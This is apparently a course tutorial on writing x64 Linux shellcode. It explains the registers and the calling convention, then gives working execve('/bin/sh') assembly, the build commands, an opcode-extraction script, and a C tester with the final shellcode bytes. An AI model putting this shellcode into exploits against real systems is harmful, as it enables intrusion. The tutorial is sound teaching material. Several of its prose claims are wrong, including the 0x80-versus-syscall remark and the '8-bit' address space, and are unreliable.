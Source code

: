 :orphan:
(linux-exploitation-x64-shellcode)=

# Linux Exploitation: x64 shellcode

Let's try to write a `64-bit` Linux shellcode.

Before we can do that, let's lay the groundwork for the distinctions between the `x86` and `x64` architectures.

## x64 Architecture

The `64-bit` architecture is the result of hardware advancements to which software had to adapt.

The `32-bit` architecture provides registers and addresses with a size of `32 bits` (`4 bytes`).
In this manner, the address space is constrained by the `8-bit` value.

The amount of memory accessible with `64-bit` is significantly greater. As `64-bits` are equivalent to `8 bytes`, all registers and addresses on a `64-bit` architecture are double the size.

In addition, the number of registers in `64-bit` processors has grown.

As they are also larger, they have been given a new naming convention; their names all begin with `"R"`

Thus, in place of `EAX`, `EBX`, and `ECX`, there are `RAX`, `RBX`, and `RCX`. They are all `64 bits` (`8 bytes`) wide.

The individual sections of a register are directly accessible. On `64-bit` architectures, you can refer to `EAX` of `RAX` in the same way that you could access `AH` or `AX` of `EAX` on `32-bit` architectures.

In addition, a number of new general-purpose registers were added to facilitate more complex operations.

In x64, the following registers exist:

```nasm
rax ; register a extended
rbx ; register b extended
rcx ; register c extended
rdx ; register d extended
rbp ; register base pointer
rsp ; register stack pointer
rsi ; register source index
rdi ; register destination index
```

And the new registers are:

```nasm
r8 ; register 8
r9 ; register 9
r10 ; register 10
r11 ; register 11
r12 ; register 12
r13 ; register 13
r14 ; register 14
r15 ; register 15
```

The existence of new registers also influences the manner in which functions are called. No additional arguments are added to the stack.

Instead, the first six arguments are passed to a function as follows:

- `rdi, rsi, rdx, rcx, r8d, r9d`
- The remainder of the arguments are passed through the stack.

From the perspective of exploit development, all these changes present a new obstacle:

- A vast address space makes brute-force attacks difficult, if not impossible.

- As function arguments are not taken from the stack, `Ret2Libc` and similar attacks are limited. Before calling a function, the attacker must execute code that loads the parameters into the appropriate registers.

When dealing with buffer overflows on `x64` systems, you may also encounter instances in which the mapped address space is constrained by a `6-byte` hex number. This indicates that you cannot overwrite the `EIP` with `0x4141414142424242`.

The only address available will be `0x0000414243444546`, so exploit buffers must terminate after overwriting the `EIP`.

Exploiting `64-bit` systems is commonly associated with Return Oriented Programming and is regarded as a complex topic. In [this course](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html), you will practice exploitation techniques against both insecure and secure `x64` Linux systems.

While `x64` itself is difficult to exploit, `x64` shellcoding is significantly simpler.

## Writing x64 shellcode

On a 64-bit platform, we will continue to use `nasm`, `gcc`, and `binutils` to build shellcode:

```bash
sudo apt-get install nasm binutils gcc
```

Additionally, we will utilize the same shellcode tester application:

```cpp
#include <stdio.h>
#include <string.h>

unsigned char code[] = "\x48\x31\xd2\x52....";

int main() {
    printf("shellcode length: %d\n", strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

This time, we will create `64-bit` Assembly code.

Note that `32-bit` applications can run on `64-bit` systems, but `64-bit` applications cannot run on `32-bit` systems.

A bash-spawning shellcode's Assembly code will be comparable to the `32-bit` version. We will use the `execve` system call that begins a process, place its arguments in the appropriate registers, and then execute the `syscall` instruction (on `x64`, this is replaced by the `0x80` instruction).

First, we will start with the proper syscall. For `execve` on `x64`, it is `59`:

```bash
vim /usr/include/x86_64-linux-gnu/asm/unistd_64.h
```

![asm](images/linux-exploitation-04.png)

On `x64`, the arguments did not change. Still, the first argument is the program to be executed, the second is the program's arguments, and the third is the program's environment variables.

As with `32-bit` shellcode, we need only point the first argument to `"/bin/bash"` and leave the remaining two arguments blank (`NULL`).

Before executing the syscall, the syscall number must be placed in `RAX`, while `RDI`, `RSI`, and `RDX` contain the arguments to execute.

Therefore, `RDI` will contain a pointer to `"/bin/sh"` and `RSI` will contain a pointer to an array of strings (arguments).

In this instance, we will not pass any arguments or environment variables to the program we wish to launch, so the only element of that array will be a nested pointer to the `/bin/sh` address (pointer to pointer).

`RDX`, the final argument, can be null.

Let's begin writing Assembly code. You will notice that it differs little from the `x86` version:

```nasm
section .text
  global _start               ; we inform the system where the program begins

_start:
  xor rdx, rdx                ; zero out rdx
  push rdx                    ; push it onto the stack
  mov rax, 0x68732f2f6e69622f ; we can push „hs//nib/” as one value, after all it is 64-bit
  push rax                    ; we push it onto the stack, so it lands at some address on the stack
  mov rdi, rsp                ; that address is where esp points to, so we store it in rdi => pointer to „/bin/sh”
  push rdx                    ; we push 0, as it will be the null termination of the array
push rdi                      ; the address of „/bin/sh” is pushed onto the stack, it lands under another stack address
mov rsi, rsp                  ; we store that address into rsi. So rsi contains a pointer to a pointer to „/bin/sh”
xor rax, rax                  ; zero out eax to keep it clean
mov al, 0x3b                  ; 59 DEC, we move it to the lowest eax part to avoid nulls.
syscall                       ; all arguments are set up, syscall time
```

Compilation is similar to what we did for `x86`, with the exception that we will instruct the compiler to generate an `x64` executable:

```bash
nasm -f elf64 -o shellcode.o shellcode.asm
ld -m elf_x86_64 -s -o shellcode shellcode.o
```

![asm](images/linux-exploitation-11.png)

Let's extract the opcodes from the executable using the `extractor.sh` script:

```bash
#!/bin/bash
if [ -z "$1" ]
then
    echo "Usage: $0 <path to executable>"
    exit
fi

objdump -d $1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

or just command:

```bash
objdump -d ./shellcode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

![a](images/linux-exploitation-15.png)

Then, we will copy and paste them into the shellcode tester application. Here is the complete shellcode tester program's source code:

```cpp
#include <stdio.h>
#include <string.h>

unsigned char code[] = "\x48\x31\xd2\x52\x48\xb8\x2f\x62\x69\x6e\x2f\x73\x68\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x48\x31\xc0\xb0\x3b\x0f\x05";

int main() {
    printf("shellcode length: %d\n", strlen(code));
    int (*ret)() = (int(*)())code;
    ret();
}
```

Now, we compile it to test whether the shellcode works:

```bash
gcc -m64 -z execstack -fno-stack-protector -o run run.c
```

![a](images/linux-exploitation-18.png)

Then, run:

```bash
./run
```

![asmfinal](images/linux-exploitation-23.png)

As you can see, shellcoding in `x86` and `x64` is comparable. However, the Assembly code must be modified according to the rules enforced by the underlying architecture.

It boils down to calling the appropriate syscalls and setting their arguments in the correct order.

[x64 syscalls](https://x64.syscall.sh/)

[x86 syscalls](https://x86.syscall.sh/)

> **Looking to expand your knowledge of vulnerability research and exploitation? Check out our online course, [MVRE - Certified Vulnerability Researcher and Exploitation Specialist](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html). In this course, you'll learn about the different aspects of software exploitation and how to put them into practice.**
